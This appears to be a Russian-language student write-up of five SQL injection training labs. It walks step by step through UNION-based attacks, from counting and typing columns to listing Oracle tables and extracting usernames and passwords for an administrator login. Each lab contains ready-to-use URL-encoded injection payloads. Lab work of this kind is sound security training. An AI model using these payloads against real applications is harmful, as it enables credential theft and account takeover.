

# SQL Injection Labs – UNION Attacks

---

## Lab 1: SQL Injection — Listing Database Contents on Oracle

### Цель

Получить список таблиц, найти таблицу пользователей и извлечь логины и пароли.

### Уязвимость

Параметр `category` напрямую вставляется в SQL-запрос без фильтрации.

### Шаг 1 — Проверка количества колонок

Перехватить запрос через Burp Suite и изменить параметр category:

```sql
'+UNION+SELECT+'abc','def'+FROM+dual--
```

### Объяснение

* `UNION SELECT` добавляет результат своего запроса
* `dual` — специальная таблица Oracle
* `'abc','def'` проверяют, выводятся ли текстовые значения

### Результат

На странице появились `abc` и `def`, значит:

* запрос возвращает 2 колонки
* обе колонки поддерживают текст

---

### Шаг 2 — Получение списка таблиц

Использовать payload:

```sql
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

### Объяснение

`all_tables` содержит список всех таблиц базы Oracle.

### Результат

Получен список таблиц.

---

### Шаг 3 — Получение списка колонок

Найти таблицу с пользователями, например:

```text
USERS_ABCDEF
```

Использовать payload:

```sql
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
```

### Объяснение

`all_tab_columns` хранит названия колонок.

### Результат

Получены названия колонок таблицы.

---

### Шаг 4 — Получение логинов и паролей

Использовать payload:

```sql
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```

### Объяснение

Запрос извлекает usernames и passwords из таблицы пользователей.

### Результат

Получены логины и пароли всех пользователей.

---

### Шаг 5 — Вход в administrator

Использовать найденный пароль администратора для входа.

### Результат

Успешный вход в administrator account.

---

# Lab 2: SQL Injection UNION Attack — Determining Number of Columns

### Цель

Определить количество колонок в SQL-запросе.

### Шаг 1 — Проверка одной колонки

Использовать payload:

```sql
'+UNION+SELECT+NULL--
```

### Результат

Появилась ошибка.

### Объяснение

Количество колонок не совпадает с оригинальным запросом.

---

### Шаг 2 — Добавление колонок

Использовать:

```sql
'+UNION+SELECT+NULL,NULL--
```

Если ошибка остаётся:

```sql
'+UNION+SELECT+NULL,NULL,NULL--
```

Продолжать до исчезновения ошибки.

### Объяснение

Количество `NULL` должно совпасть с количеством колонок оригинального запроса.

### Результат

После правильного количества NULL ошибка исчезает.

---

# Lab 3: SQL Injection UNION Attack — Finding a Text Column

### Цель

Определить, какая колонка поддерживает текст.

### Шаг 1 — Проверка количества колонок

Использовать:

```sql
'+UNION+SELECT+NULL,NULL,NULL--
```

### Результат

Ошибка отсутствует → колонок 3.

---

### Шаг 2 — Проверка текстовых колонок

Использовать:

```sql
'+UNION+SELECT+'abcdef',NULL,NULL--
```

Если ошибка появляется, перемещать текст в следующую колонку:

```sql
'+UNION+SELECT+NULL,'abcdef',NULL--
```

или:

```sql
'+UNION+SELECT+NULL,NULL,'abcdef'--
```

### Объяснение

Текст можно вставить только в колонку текстового типа.

### Результат

Определена колонка, поддерживающая текст.

---

# Lab 4: SQL Injection UNION Attack — Retrieving Data From Other Tables

### Цель

Получить usernames и passwords из таблицы users.

### Шаг 1 — Проверка колонок

Использовать:

```sql
'+UNION+SELECT+'abc','def'--
```

### Результат

Появились `abc` и `def`.

### Объяснение

Запрос возвращает 2 текстовые колонки.

---

### Шаг 2 — Получение данных пользователей

Использовать payload:

```sql
'+UNION+SELECT+username,+password+FROM+users--
```

### Объяснение

Данные извлекаются напрямую из таблицы users.

### Результат

Получены usernames и passwords пользователей.

---

# Lab 5: SQL Injection UNION Attack — Multiple Values in One Column

### Цель

Получить username и password внутри одной колонки.

### Шаг 1 — Проверка текстовой колонки

Использовать:

```sql
'+UNION+SELECT+NULL,'abc'--
```

### Объяснение

Текст вставляется только в текстовую колонку.

### Результат

Определена текстовая колонка.

---

### Шаг 2 — Объединение username и password

Использовать payload:

```sql
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```

### Объяснение

* `||` объединяет строки в Oracle
* `~` используется как разделитель между username и password

Пример результата:

```text
administrator~qwerty123
```

### Результат

Получены usernames и passwords в одной колонке.

---

# Итог

В ходе выполнения лабораторных работ были изучены:

* UNION SQL Injection
* определение количества колонок
* поиск текстовых колонок
* извлечение таблиц и колонок
* получение данных пользователей
* обход аутентификации

Для выполнения использовались:

* Burp Suite
* изменение HTTP запросов
* анализ SQL логики
